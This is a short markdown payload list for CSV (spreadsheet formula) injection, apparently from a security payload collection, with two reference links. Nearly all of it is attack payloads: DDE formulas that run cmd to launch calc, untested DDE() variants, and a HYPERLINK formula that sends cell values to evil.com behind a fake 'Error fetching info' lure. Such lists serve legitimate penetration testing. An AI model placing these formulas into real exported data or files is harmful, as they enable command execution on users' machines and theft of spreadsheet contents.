 # CSV Injection

### Payloads

```
-1+1+cmd|' /C calc'!A0
-2+3+cmd|' /C calc'!A0
+2+3+cmd|' /C calc'!A0
@2+3+cmd|' /C calc'!A0

# no warning to user
=HYPERLINK("http://evil.com?x="&A3&","&B3&"[CR]","Error fetching info: Click me to resolve.")

# untested
=DDE("cmd";"/C calc";"__DdeLink_60_870516294")
=DDE("cmd";"/C calc";"!A0")

%0A-2+3+cmd|' /C calc'!D2      # %0A is NewLine which excel will
                               # ref: https://bugzilla.mozilla.org/show_bug.cgi?id=1259881
                               #      https://bugzilla.mozilla.org/show_bug.cgi?id=1263581
```

### References

* [DDE Function](https://wiki.openoffice.org/wiki/Documentation/How_Tos/Calc:_DDE_function)
* [Weaponizing](https://sensepost.com/blog/2016/powershell-c-sharp-and-dde-the-power-within/)
